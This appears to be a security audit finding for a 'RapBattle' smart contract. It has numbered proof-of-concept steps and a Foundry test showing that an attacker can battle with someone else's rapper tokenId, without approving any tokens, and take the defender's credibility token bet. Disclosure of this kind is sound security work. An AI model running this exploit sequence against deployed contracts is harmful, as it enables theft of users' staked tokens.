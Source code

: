 ## Proof of Concept

1. Defender enters the rap battle by approving his/her rapper tokenId and credibility token bet to the RapBattle contract. The RapBattle contract transfers the tokenId and credibility token bet to itself.
2. The challenger (attacker) without his/her own rapper tokenId enters the battle with someone else's tokenId (with maxed out stats). Also, the challenger doesn't approve any credibility tokens to the RapBattle contract.
3. If the defender wins, the transaction reverts because the contract failed to transfer tokens from challenger to the defender.
4. If the challenger wins, he/she gets the credibility token bet placed by the defender.

Add the following function to the test contract in your Foundry test file:

```javascript
    function testAttackerEntersWithSomeoneElsesTokenId(uint256 time, bytes32 difficulty) public {
        // setup phase
        address defender = makeAddr("defender");
        address attacker = makeAddr("attacker");
        address pro = makeAddr("pro");

        // defender gets his rapper tokenId minted and stakes it for a day
        vm.startPrank(defender);
        oneShot.mintRapper();
        oneShot.approve(address(streets), 0);
        streets.stake(0);
        vm.warp(1 days + 1);
        streets.unstake(0);
        vm.stopPrank();

        // pro gets his rapper tokenId minted, stakes it for as long as possible to get max stats and credibility tokens
        vm.startPrank(pro);
        oneShot.mintRapper();
        oneShot.approve(address(streets), 1);
        streets.stake(1);
        vm.warp(5 days + 1);
        streets.unstake(1);
        vm.stopPrank();

        // defender enters battle
        vm.startPrank(defender);
        oneShot.approve(address(rapBattle), 0);
        cred.approve(address(rapBattle), 1);
        rapBattle.goOnStageOrBattle(0, 1);
        vm.stopPrank();

        // attacker enters with pro's rapper tokenId
        vm.startPrank(attacker);
        // fuzz with randomized time and block difficulty
        vm.warp(time);
        vm.prevrandao(difficulty);
        rapBattle.goOnStageOrBattle(1, 1); // didn't approve any credibility tokens to the contract
        assertEq(cred.balanceOf(attacker), 1); // attacker wins defender's credibility token bet
    }
```
